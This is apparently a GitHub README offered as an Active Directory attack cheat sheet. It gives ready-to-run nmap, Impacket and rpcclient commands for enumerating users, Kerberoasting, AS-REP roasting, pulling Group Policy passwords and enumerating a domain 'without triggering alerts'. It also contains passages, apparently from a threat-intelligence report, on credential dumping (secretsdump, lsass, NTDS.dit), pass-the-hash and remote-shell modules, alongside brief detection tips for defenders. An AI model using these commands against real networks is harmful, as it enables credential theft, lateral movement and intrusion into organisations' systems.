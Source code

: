# Ba51c_Activ3_Direct0ry_3numeration
In most engagements regarding Active Directory (Attacktive Directory), credentials are king. This repo contains basic enumeration commands that will help gain more insight into the target network and its identities. 


# IP Discovery Commands
Once connected to the private/internal range of the target, these commands will assist in IP discovery as well as Services that run on the IP. 
- nmap -sn <IP/24>
- nmap -Pn <IP/24>


# Impacket to Rule them All
"What is Impacket used for?
Impacket is an open-source collection of modules written in Python for programmatically constructing and manipulating network protocols."
If credentials have been gained, they will assist with the following commands that can be run in the domain

*Enter details between the placeholders --> ()

## Getting AD Users
python3 GetADUsers.py -all '(domain)/(user):(password)' -dc-ip (IP)

## Kerberoasting 
python3 GetUserSPNs.py test.local/john:password123 -dc-ip 10.10.10.1 -request

## ASREP Roasting
python3 GetNPUsers.py test.local/ -dc-ip 10.10.10.1 -usersfile usernames.txt -format hashcat -outputfile hashes.txt

## Get GPPPassword
python3 Get-GPPPassword.py 'TEST.local/john:password123@DC01.TEST.local' -dc-ip 10.10.10.1


# RPCCLient - Sneaky Enumeration Tactics 
The following tool aids in enumerating objects in a domain without triggering alerts and creating a lot of "noise". 

## RPCClient Authentication
rpcclient -U 'Testuser' 10.10.1.1 - (Password Prompt will appear after)

## RPCClient Commands
- List Users = enumdomusers
- List Groups = enumdomgroups
- Domain Info = querydominfo
- Enumerate all available shares = netshareenumall
- Create Domain User = createdomuser

#Credential harvesting

Once an attacker has obtained an initial foothold in the environment, they can download Impacket directly onto the compromised system or proxy Impacket’s capabilities through an established communication channel, such as Cobalt Strike. The attacker then must harvest valid credentials to move laterally throughout the network and accomplish their end goal. There are many methods that an attacker can use to acquire these passwords, with commonly observed modules listed below. It is important to note that while the output of these modules is compatible with common password cracking tools such as hashcat, the attacker does not need to crack them to authenticate to a remote device. For example, the attacker can perform a pass-the-hash attack and access a device using the acquired NTLM hash.

#Important modules

- GetUserSPNs.py – launches a Kerberoasting attack (note that any domain user in an environment can perform this attack)
- GetNPUsers.py – launches an ASREPoast attack (note that any domain user in an environment can perform this attack)
- secretsdump.py – performs a multitude of techniques to dump secrets from a remote device without deploying any malware there. Data is dumped from the registry and .DIT files that contain hashes, plaintext credentials, and Kerberos keys. An attacker must have local administrator credentials to achieve this.
  
#Hunting tips

Monitor for the RemoteRegistry service entering a running state (event ID 7036) in the Windows System event logs. Extracting credentials enables the RemoteRegistry service on the remote endpoint. While this service is in a stopped state by default, making its activation suspicious, this could also be an artifact of legitimate administrator activity.
Configure a Security Access Control List (SACL) for the HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg registry value. This provides an audit log of all remote access to the Windows registry. Monitor for Attempted Access events (event ID 4663) in the Windows Security log, once turned on for this object.

#Remote execution

Impacket provides several methods for performing remote execution, a methodology Microsoft commonly sees attackers use during ransomware attacks. Attackers can use this capability to launch malware, including broad deployment of ransomware -run commands, or to simply provide them with a shell on the target device. It is important to note that valid credentials are required to establish these connections, although obtaining domain credentials can be relatively simple once an attacker has gained a foothold in the environment. Some common commands, files, and actions Microsoft researchers have seen launched using Impacket are:

ipconfig /all
net user and net group to perform domain reconnaissance
tasklist, often to identify the lsass.exe process for later dumping of memory using comsvcs.dll and rundll32.exe
echo query user
sharpweb.exe
copying of the _NTDS.di_t file with the copy command
launch of encoded PowerShell commands

#Important modules

- psexec.py creates and subsequently deletes a Windows service on a remote device that creates a semi-interactive shell on a target system using DCOM objects. You can specify a command to run or leave blank to spawn a shell.
- smbexec.py spawns an interactive shell on a target device. This module creates and subsequently deletes a Windows service on a remote device for any command entered into the shell.
- atexec.py creates and subsequently deletes a Scheduled Task on a remote device that launches a command on the target host.
- wmiexec.py creates a semi-interactive shell on a target system using Windows Management Instrumentation. You can specify a command to launch or leave it blank to spawn a shell. This runs as Administrator and does not require installation of any service or agent on the system.
- dcomexec.py creates a semi-interactive shell on a target system using DCOM objects. You can specify a command to launch or leave blank to spawn a shell.




